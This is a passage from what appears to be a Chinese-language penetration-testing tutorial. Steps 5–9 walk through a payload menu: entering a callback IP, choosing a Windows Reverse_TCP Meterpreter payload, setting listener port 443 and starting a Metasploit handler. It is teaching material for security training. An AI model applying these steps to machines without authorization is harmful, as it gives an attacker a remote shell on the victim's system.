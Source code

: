 5.  下面，我们被询问输入载荷的 IP 来反转链接。这里，我们输入我们的 IP 地址：

    ```
    192.168.10.109
    ```
    
    ![](img/7-3-3.jpg)
    
6.  你会看到载荷的列表和描述，它们为`Payload and Listener`选项生成。选择`Windows Reverse_TCP Meterpreter`。这会让我们连接到目标上，并对其执行 Meterpreter 载荷。

    ```
    2
    ```
    
    ![](img/7-3-4.jpg)
    
7.  最后，我们被询问作为监听器端口的端口号。已经为你选择了 443，所以我们就选择它了。

    ```
    443
    ```
    
8.  一旦载荷准备完毕，你会被询问来启动监听器，输入`Yes`：

    ![](img/7-3-5.jpg)
    
9.  你会注意到 Metasploit 打开了一个处理器。

